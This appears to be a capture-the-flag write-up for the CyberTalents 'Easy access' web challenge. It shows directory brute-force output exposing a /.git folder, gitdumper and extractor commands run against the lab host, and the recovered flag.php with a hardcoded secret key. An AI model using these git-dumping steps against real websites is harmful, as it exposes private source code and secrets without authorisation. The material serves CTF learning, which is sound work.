

# Solve Easy access
### https://cybertalents.com/challenges/web/easy-access



### Try to access flag.php


### Run Directory bruteforce

output
```bash
301 -  417B  - /.git  
200 -  635B  - /.git/                                            
200 -  266B  - /.git/COMMIT_EDITMSG                              
200 -  196B  - /.git/config
200 -   73B  - /.git/description
200 -   23B  - /.git/HEAD
200 -  677B  - /.git/hooks/                                      
200 -  209B  - /.git/index                                       
200 -  499B  - /.git/info/                                       
200 -  240B  - /.git/info/exclude
200 -  521B  - /.git/logs/                                       
200 -  148B  - /.git/logs/HEAD                                   
200 -  148B  - /.git/logs/refs/heads/master                      
301 -  427B  - /.git/logs/refs  
301 -  433B  - /.git/logs/refs/heads  
200 -  548B  - /.git/objects/                                    
200 -  505B  - /.git/refs/                                       
301 -  428B  - /.git/refs/heads  
200 -   41B  - /.git/refs/heads/master
301 -  427B  - /.git/refs/tags 
200 -  107B  - /flag.php  
```

### Download all git files with gettools
1. dump all git files  
```bash
./gitdumper.sh http://wcamxwl32pue3e6meg23gmgi834kj6zqdkgxu639-web.cybertalentslabs.com/.git/ /home/m_1337/CyberTalents/Web/MaximumCourage/git
```
2. extract source files 
```bash
./extractor.sh /home/m_1337/CyberTalents/Web/MaximumCourage/git /home/m_1337/CyberTalents/Web/MaximumCourage/git
```

### Read the [flag.php](git/flag.php) file
```php
You can't view this flag directly.
<!-- PHP source doesn't appear on HTML comments -->
<?php
exit();
die();
$secret_key = 'be607453caada6a05d00c0ea0057f733';
?>   
```

>Find More on ==> github.com/MedhatHassan 